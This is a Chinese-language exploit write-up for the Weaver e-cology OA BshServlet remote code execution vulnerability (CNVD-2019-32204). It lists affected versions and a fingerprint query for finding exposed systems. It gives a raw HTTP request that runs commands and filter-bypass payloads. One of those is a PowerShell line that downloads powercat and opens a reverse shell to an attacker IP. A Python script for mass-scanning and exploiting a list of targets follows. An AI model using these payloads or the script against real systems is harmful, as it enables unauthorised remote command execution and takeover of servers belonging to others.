

泛微OA E-Cology BshServlet 远程代码执行漏洞 CNVD-2019-32204¶
漏洞描述¶
2019年9月17日泛微OA官方更新了一个远程代码执行漏洞补丁, 泛微e-cology OA系统的Java Beanshell接口可被未授权访问, 攻击者调用该Beanshell接口, 可构造特定的HTTP请求绕过泛微本身一些安全限制从而达成远程命令执行, 漏洞等级严重.
网络测绘¶
app=“泛微-协同办公OA”
漏洞影响¶
E-cology 7.0
E-cology 8.0
E-cology 8.1
E-cology 9.0
漏洞复现¶
直接在网站根目录后加入组件访问路径 /weaver/bsh.servlet.BshServlet/，如下图在victim上执行了命令“whoami”

请求包为
POST /weaver/bsh.servlet.BshServlet HTTP/1.1
Host: xxxxxxxx:8088
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Length: 98
Content-Type: application/x-www-form-urlencoded
bsh.script=ex\u0065c("cmd /c dir");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw
关于绕过
eval%00("ex"%2b"ec(\"whoami\")");
ex\u0065c("cmd /c dir");
IEX(New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c ip -p 6666 -e cmd
漏洞POC¶
https://github.com/myzing00/Vulnerability-analysis/tree/master/0917/weaver-oa/CNVD-2019-32204
#/usr/bin/python
#coding:utf-8
#Author:Ja0k
#For Weaver-Ecology-OA_RCE
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
import requests,sys
headers = {
'Content-Type': 'text/xml; charset=utf-8',
'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8',
'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:52.0) Gecko/20100101 Firefox/52.0',
'Cache-Control': 'max-age=0',
'Content-Type': 'application/x-www-form-urlencoded',
'Upgrade-Insecure-Requests': '1',
'Content-Length': '578'
}
proxies= {'http':'http://127.0.0.1:8080'}
def Poc_check(target):
Url_Payload1="/bsh.servlet.BshServlet"
Url_Payload2="/weaver/bsh.servlet.BshServlet"
Url_Payload3="/weaveroa/bsh.servlet.BshServlet"
Url_Payload4="/oa/bsh.servlet.BshServlet"
Data_Payload1="""bsh.script=exec("whoami");&bsh.servlet.output=raw"""
Data_Payload2= """bsh.script=\u0065\u0078\u0065\u0063("whoami");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw"""
Data_Payload3= """bsh.script=eval%00("ex"%2b"ec(bsh.httpServletRequest.getParameter(\\"command\\"))");&bsh.servlet.captureOutErr=true&bsh.servlet.output=raw&command=whoami"""
for Url_Payload in (Url_Payload1,Url_Payload2,Url_Payload3,Url_Payload4):
url= target + Url_Payload
for Data_payload in (Data_Payload1,Data_Payload2,Data_Payload3):
try:
http_response = requests.post(url,data=Data_payload,headers=headers,verify=False)
#print http_response.status_code
if http_response.status_code == 200:
if ";</script>" not in (http_response.content):
if "Login.jsp" not in (http_response.content):
if "Error" not in (http_response.content):
print "{0} is a E-cologyOA_RCE Vulnerability".format(url)
print "Server Current Username：{0}".format(http_response.content)
elif http_response.status_code == 500:
print "{0}500 maybe is Weaver-EcologyOA，Please confirm by yourself ".format(url)
else:
pass
except Exception,Error:
pass
if __name__ == '__main__':
for line in open(sys.argv[1]).readlines():
target=line.strip()
Poc_check(target)
#1.install python Dependencies Library
pip install requests
#2.批量脚本 执行
python Weaver-Ecology-OA_RCE-exp.py
url.txt文件中 是url地址 需要带http协议